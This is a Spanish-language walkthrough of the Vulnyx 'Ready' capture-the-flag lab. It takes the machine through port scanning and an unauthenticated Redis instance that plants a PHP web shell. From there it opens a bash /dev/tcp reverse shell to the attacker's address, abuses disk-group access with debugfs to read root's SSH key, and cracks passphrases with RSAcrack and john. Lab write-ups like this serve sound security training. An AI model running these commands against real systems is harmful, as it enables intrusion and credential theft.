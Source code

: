 ```yaml
---
layout: post
title:  "Ready"
date:   2024-04-11 11:37:29
categories: sample
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Ready</td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#ready"> Vulnyx</a></td> </tr>
</table>

<br>

![machine](/notas/public/img/vulnyx/ready/readypc.png){:.margin}

**1\.** teniendo la ip de la maquina, hacemos un descubrimiento de puertos

`sudo nmap -p- --open -sS -T5 --min-rate=5000 192.168.1.7 -n -Pn`

![p80](/notas/public/img/vulnyx/ready/nmap_ports.png){:.margin}

**2\.** lanzamos un conjunto de script de reconocimiento a dichos puertos

`sudo nmap -p22,80,6379,8080 -sCV -n -Pn 192.168.1.7`

![versions](/notas/public/img/vulnyx/ready/nmap_version.png){:.margin}

**3\.** Revisamos apache en los puertos 80 y 8080, no vemos nada interesante

![versions](/notas/public/img/vulnyx/ready/apache_80.png){:.margin}
![versions](/notas/public/img/vulnyx/ready/apache_8080.png){:.margin}

**4\.** Podemos fuzzear ambos servicios de apache, pero no encontraremos nada interesante

`gobuster dir -u http://192.168.1.7:80/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash -t 50 -x html,php,txt -b 404,403`

![versions](/notas/public/img/vulnyx/ready/fuzz80.png){:.margin}

`gobuster dir -u http://192.168.1.7:8080/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash -t 50 -x html,php,txt -b 404,403`

![versions](/notas/public/img/vulnyx/ready/fuzz8080.png){:.margin}

**5\.** Probamos acceder a redis sin credenciales (Se puede), tambien podemos crear un archivo php en el servidor apache

`redis-cli -h 192.168.1.7`

`config get dir`

`config set dbfilename shell.php`

`config set dir /var/www/html/`

`set shell.php "<?php system($_GET['cmd']);?>"`

`save`

`exit`

![redis](/notas/public/img/vulnyx/ready/redis.png){:.margin}

**6\.** Apuntamos hacia nuestro archivo generado, incluimos el parametro cmd para mediante este ingresar comandos de sistema.

\- En el puerto 80 no lo encontramos: `http://192.168.1.7/shell.php?cmd=id`
![notfound](/notas/public/img/vulnyx/ready/not_found_80.png){:.margin}

\- Sobre el 8080 si que podemos: `http://192.168.1.7:8080/shell.php?cmd=id`

![found](/notas/public/img/vulnyx/ready/found_8080.png){:.margin}

**7\.** Nos ponemos en escucha en el puerto 443

`sudo nc -nlvp 443`

![nc](/notas/public/img/vulnyx/ready/nc.png){:.margin}

**8\.** Ingresamos el comando para obtener un Reverse Shell

`http://192.168.1.7:8080/shell.php?cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.13/443 0>%261"`

![revershell](/notas/public/img/vulnyx/ready/revershell.png){:.margin}

**9\.** Ya teniendo acceso a la máquina, estamos como usuario Ben, revisamos los grupos al que pertenece.

-Pertenemos al grupo disk, con esto podemos montar y desmontar Unidades

`id`

![id](/notas/public/img/vulnyx/ready/id.png){:.margin}

**10\.** Revisamos unidades disponibles

`df -h`

![df](/notas/public/img/vulnyx/ready/df.png){:.margin}

**11\.** Buscamos la herramienta de análisis y depuración de archivos   

`find / -type f -name debugfs 2>/dev/null`

`which debugfs`

![debugs](/notas/public/img/vulnyx/ready/debugfs.png){:.margin}

**12\.** Ingresamos al disco sda1, luego leemos la llave privada de root.

`/usr/sbin/debugfs /dev/sda1`

`cat /root/.ssh/id_rsa`

![idrsa](/notas/public/img/vulnyx/ready/cat_idrsa.png){:.margin}

**13\.** Vemos que la llave esta protegida, lo copiamos y lo guardamos en un archivo en nuestra máquina local 

`nano key`

![key](/notas/public/img/vulnyx/ready/key.png){:.margin}

**14\.** En este caso usare la herramienta RSAcrack para obtener un passphrase

`sudo RSAcrack -w /usr/share/wordlists/rockyou.txt -k key`

![rsacrack](/notas/public/img/vulnyx/ready/rsacrack.png){:.margin}

**15\.** Teniendo la clave nos conectamos como root por ssh

`ssh -i key root@192.168.1.7`

![ssh](/notas/public/img/vulnyx/ready/ssh.png){:.margin}

**16\.** Vemos que tenemos un comprimido, abrimos un servidor local

`ls`

`python3 -m http.server 8081`

![img](/notas/public/img/vulnyx/ready/python_server.png){:.margin}

**17\.** Desde nuestra máquina local nos descargamos el comprimido

`wget http://192.168.1.7:8081/root.zip`

![img](/notas/public/img/vulnyx/ready/wget.png){:.margin}

**18\.** Intentamos descomprimir pero necesitamos un acontraseña

`unzip root.zip`

![img](/notas/public/img/vulnyx/ready/unzip.png){:.margin}

**19\.** Utilizamos zip2john para obtener un hash que representa la contraseña

`zip2john root.zip > hashzip`

![img](/notas/public/img/vulnyx/ready/zip2john.png){:.margin}

**20\.** Ahora desciframos la contraseña

`john --wordlist=/usr/share/wordlists/rockyou.txt hashzip`

![img](/notas/public/img/vulnyx/ready/clave.png){:.margin}

**21\.** Teniendo la clave procedemos a descomprimir, asi obtenemos la "flag" de root

`unzip root.zip`

![img](/notas/public/img/vulnyx/ready/flag.png){:.margin}

<br>

<a href="#">_Finalizado._</a>
